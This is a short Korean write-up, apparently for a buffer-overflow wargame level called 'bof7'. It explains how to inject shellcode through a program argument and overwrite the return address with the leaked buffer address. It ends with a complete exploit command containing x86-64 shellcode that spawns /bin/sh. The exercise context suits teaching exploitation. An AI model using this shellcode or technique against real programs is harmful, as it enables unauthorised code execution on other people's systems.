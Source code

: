 # bof 7

bof6 문제와 비슷한 메커니즘으로 풀면되지만 차이점이 2가지 있다.

1. main 함수의 인자를 통해 버퍼가 채워진다.
2. shellcode가 스택에 저장되어있지 않다.

다만 stack-execution ON이므로 buffer에 직접적으로 shellcode를 심은 뒤 sfp까지는 dummy로 채운다. 그리고 ret 주소는 buffer의 주소를 넣어주어 우리가 직접 심은 shellcode가 실행되도록 한다.

buffer의 주소는 printf가 출력해주므로 그것을 이용한다. 

따라서 터미널에 입력해야 하는 명령은 다음과 같다.

``` bash
$ ./bof7 `python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+"a"*109+"\x70\xea\xff\xff\xff\x7f\x00\x00"'`
```